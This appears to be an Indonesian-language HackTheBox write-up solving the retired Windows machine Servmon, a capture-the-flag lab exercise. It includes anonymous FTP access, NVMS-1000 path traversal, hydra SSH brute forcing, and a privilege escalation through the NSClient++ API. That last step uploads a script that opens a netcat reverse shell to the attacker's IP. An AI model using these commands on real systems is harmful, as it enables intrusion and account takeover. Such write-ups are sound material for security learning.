




Bismillah..
Sebenarnya postingan ini lumayan telat karna mesin sudah retire sekitar seminggu yang lalu... tapi itu bukan menjadi masalah karna tidak ada kata terlambat untuk belajar.
Sebagai informasi mesin ini bernama Servmon dengan OS windows dengan total 20 points (easy). Adapun seperti biasanya, tantangan dari HackThebox adalah mengambil alih akses penuh mesin (privilege escalation) untuk mendapatkan user.txt dan root.txt
Intro
Box yang relatif mudah. Masuk ke FTP sebagai anonymous login. Layanan nvms-1000 rentan terhadap eksploitasi publik (Directory Traversal). Membaca file Passwords.txt menggunakan Dir-traversal. Brute Force dan mencoba masuk ke ssh login sebagai Nadine user. Layanan yang berjalan pada port 8443 Nsclient rentan terhadap eksploitasi publik dan kita dapat menggunakannya untuk mendapatkan rootThis content
- Nmap port scanning
- Check anonymous ftp
- NVMS 1000 path traversal
- Login Nadine ssh
- Port forward 8443
- Exploit NSClient++
- Working with curl
Recon
sudo nmap -sCV -oN nmap/serv 10.10.10.184
penjelasan:
- -s: Scanning TCP port mode
- C: menggunakan common-script pada service yang dituju
- V: menampilkan version pada service
- -oN nmap/serv: write output ke dalam file nmap/serv
- 10.10.10.184: IP servmon
ftp 10.10.10.184
- username: anonymous
- password: anonymous
Disini kita mendapatkan 2 file: "Confidential.txt" dan "Notes to do.txt"  Oke karna hanya sebuah catatan (baca: hint) maka kita skip dulu.
Exploit
Langsung saja karna kita sudah mendapatkan hint yaitu pada file Confidential.txt dimana mengatakan "I left your Password.txt on your Desktop" maka kita hanya mengarahkan ke dalam file C:\Users\Nathan\Desktop\password.txt. Disini saya menggunakan burp suite dan menggunakan mode repeater untuk mengeksploitasinya sudo hydra -l Nadine -P password.txt 10.10.10.184 ssh

Yap disini kita disini mendapatkan passwordnya: L1k3B1gBut7s@W0rk maka kita langsung saja login melalui ssh dan mendapatkan user flagnya :)
ssh Nadine@10.10.10.184
Microsoft Windows [Version 10.0.18363.752] (c) 2019 Microsoft Corporation. All rights reserved. nadine@SERVMON C:\Users\Nadine>
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
mengenai tentang port forward ssh kalian bisa membacanya di
https://www.techrepublic.com/article/how-to-use-local-and-remote-ssh-port-forwarding/
Gaining Root access!!!
Ikuti instruksi dari refrensi exploit-db diatas, yaitu masuk ke Directory penyimpanan NSClient++ berada lalu lakukan perintah
nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
Exploit NSClient++ API using curl
netcat: https://github.com/diegocr/netcat
scp nc.exe Nadine@10.10.10.184:c:\Temp listening port dengan netcat:
netcat -lvnp 1337 Membuat hook script untuk exploit (ganti dengan ip kalian):
curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "c:\Temp\nc.exe 10.10.14.19 1337 -e cmd.exe" cek apakah file-nya sudah ada:
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/queries/evil |python -m json.tool
{
"description": "Alias for: scripts\\evil.bat",
"execute_nagios_url": "https://localhost:8443/api/v1/queries/evil/commands/execute_nagios",
"execute_url": "https://localhost:8443/api/v1/queries/evil/commands/execute",
"metadata": {},
"name": "evil",
"title": "evil"
}
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1ms Daaannnn...  ROOOOOTTTT!!!!